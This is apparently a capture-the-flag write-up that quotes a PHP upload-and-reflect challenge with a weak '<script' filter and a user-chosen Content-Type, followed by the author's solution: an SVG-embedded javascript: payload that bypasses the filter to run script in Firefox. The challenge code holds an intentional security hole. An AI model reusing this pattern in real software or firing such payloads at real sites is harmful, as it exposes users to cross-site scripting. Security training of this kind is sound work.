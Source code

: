 
This challenge was posted on swehack.org and was made by avlidienbrunn

https://swehack.org/viewtopic.php?f=37&t=1735

The source:
```
<?php
//File converter, upload and get right file type...
if(!isset($_POST["submit"])) {
?>
Tjaba! Med detta tool kan du kolla på dina filer som om de vore XML, PDF eller binärer :) Kul va!
<form enctype="multipart/form-data" action="" method="POST">
<input type="file" name="file" />
<select name="type">
<option>xml</option>
<option>pdf</option>
<option>octet-stream</option>
</select>
<input name="submit" type="submit" />
</form>

<?php
die;
}
$contenttype = $_POST['type'];
//Longest one in the list...
if(strlen($contenttype) > strlen("octet-stream")){
   die("invalid type");
}
//Get file content
$content = file_get_contents($_FILES["file"]["tmp_name"]);
if($content == ""){
   $content = $_POST['file'];
}
//XSS protections
if(preg_match('/<script/', $content)){
   die("Hacking attempt!!!!");
}
header('Content-Type: application/'.$contenttype);
echo $content;
?>
```
This was my solution (worked in ff):
```
<svg><embed xmlns="http://www.w3.org/1999/xhtml" src="javascript:alert(1)" /></svg>
```
